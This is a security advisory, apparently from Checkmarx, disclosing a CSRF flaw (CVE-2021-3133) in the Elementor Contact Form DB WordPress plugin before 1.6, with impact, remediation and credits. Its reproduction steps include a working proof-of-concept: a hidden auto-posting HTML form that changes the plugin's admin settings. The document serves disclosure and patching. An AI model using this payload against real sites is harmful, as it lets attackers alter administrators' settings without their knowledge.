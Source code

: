 ```yaml
---
title: CSRF in Elementor-Contact-Form-DB wordpress plugin
date: 2021-01-14
tags:
	- "wordpress"
	- "csrf"
advisory: true
origin: https://advisory.checkmarx.net/advisory/CX-2020-4293/
cves:
	- "CVE-2021-3133"
---
```

## Summary
Affected versions of the "Elementor Contact Form DB" plugin for WordPress are vulnerable to a Cross-Site Request Forgery (CSRF) attack.

## Product
Elementor Contact Form DB Wordpress plugin before 1.6

## Impact
An admins that visits a malicious site could change The Elementor-Contact-Form-DB setting without his/her knowledge.

## Steps to reproduce
1. Wordpress with vulnerable Elementor Contact Form DB plugin installed
2. Admin visits the page: 
```
<html><head></head>
<body>
<form style="opacity: 0;" action="http://[site-url]/wp-admin/edit.php?post_type=elementor_cf_db&page=sb_elem_cfd_settings" method="POST">
        <input type="number" name="sb_elem_cfd[disable_admin_nag]" value="1" />
        <input type="text" name="sb_elem_cfd[records_min_role]" value="lfb_role" />
        <input type="text" name="sb_elem_cfd_save" value="Save Settings" />
<button>submit</button>
</form>

```


### Expected result:
Admin setting page will change according to the attacker's input.

## Remediation
Update Elementor-Contact-Form-DB to 1.6 or above.

## Credit
This issue was discovered and reported by Checkmarx SCA Security Researcher [Yaniv Nizry](https://twitter.com/ynizry).

## Resources
1. [Changeset](https://plugins.trac.wordpress.org/changeset/2454670)
